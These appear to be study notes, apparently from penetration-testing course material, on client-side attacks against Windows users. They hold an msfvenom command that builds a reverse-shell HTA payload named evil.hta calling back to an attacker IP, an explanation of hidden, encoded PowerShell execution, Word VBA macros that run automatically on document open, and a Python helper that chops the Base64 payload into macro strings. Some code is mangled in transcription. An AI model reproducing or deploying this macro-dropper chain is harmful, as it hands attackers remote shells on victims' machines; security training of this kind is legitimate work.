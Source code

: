 
sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip
sudo unzip master.zip
sudo mv fingerprintjs2-master/ fp

cd /var/www/html/ && sudo wget https://github.com/fingerprintjs/fingerprintjs/archive/2.1.4.zip && sudo unzip 2.1.4.zip && sudo mv fingerprintjs-2.1.4/ fp/ && cd fp

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.175 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

The first argument, -nop, is shorthand for -NoProfile,347 which instructs PowerShell not to load the PowerShell user profile.
When PowerShell is started, it will, by default, load any existing user’s profile scripts, which might negatively impact the execution of our code. This option will avoid that potential issue.
Next, our script uses -w hidden (shorthand for -WindowStyle348 hidden) to avoid creating a window on the user’s desktop.
Finally, the extremely important -e flag (shorthand for -EncodedCommand) allows us to supply a Base64 encoded349 PowerShell script directly as a command line argument.

##Macro
```
Sub AutoOpen() MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro() CreateObject("Wscript.Shell").Run "cmd"
End Sub
```
#### Python script

```
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

```

```
Sub AutoOpen() MyMacro
End Sub
Sub Document_Open() MyMacro
End Sub
Sub MyMacro()
Dim Str As String
Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" 
Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A" 

CreateObject("Wscript.Shell").Run Str End Sub

```
view-> macro
insert-> object

```

START cmd.exe
START powershell.exe -nop -w hidden -e JAB....

```
